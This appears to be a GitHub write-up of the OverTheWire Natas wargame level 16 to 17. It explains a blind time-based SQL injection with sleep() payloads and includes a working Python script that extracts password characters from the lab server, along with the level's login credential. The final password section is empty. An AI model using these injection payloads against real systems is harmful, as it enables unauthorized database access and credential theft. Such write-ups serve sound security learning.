



# Level 16 → Level 17

## Details
Username: `natas17`<br />
Password: `XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd`<br />
URL:      http://natas17.natas.labs.overthewire.org

## Solution

</img>

</img>

Very similar to the stage **level14 to level15** but the difference is that there is no output for control needs. If so, the only thing that will be available to us now is - time. We will create a query so that if the password is in the correct format, we will wait a few seconds. By the time the answer is returned we will know what happened and act accordingly.

It took me a while to get the right string, and finally it turned out that `natas18" and sleep(10);-- -` works correctly. That means the answer will be delayed for about 10 seconds.

For example, the input `natas18" and password like binary "%4%" and sleep(10);-- -` will return after 10 seconds, while `natas18" and password like binary "%3%" and sleep(10);- - -` will return after a moment. This means that the digit '4' will appear in the password, and the digit '3' will not appear. That is, if when running the query we reached `sleep()`, that means we passed all the conditions of the Boolean AND operator.

We will now create a code that identifies all the characters that appear in the password (so as not to waste unnecessary time during its discovery later):

```python
from requests import get
from requests.auth import HTTPBasicAuth
from string import digits, ascii_letters

# cCurrent level details
natas17_username = "natas17"
natas17_password = "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"

# The sql injection time based input:
waiting_time = 3 # seconds
sql_injection_time_based = "natas18\" and password like binary \"%{}%\" and sleep(" + str(waiting_time) + ");-- -"

URL = "http://natas17.natas.labs.overthewire.org/?username={}"
AUTH = HTTPBasicAuth(natas17_username, natas17_password)

characters_in_use = []
for c in digits + ascii_letters:
    res = get(url=URL.format(sql_injection_time_based.format(c)), auth=AUTH)
    
    if(res.elapsed.seconds >= waiting_time):
        characters_in_use.append(c)
        print("The password contains the following characters:")
        print("".join(characters_in_use))
```

This is the resoult:

</img>

## Password for the next level:
```

```
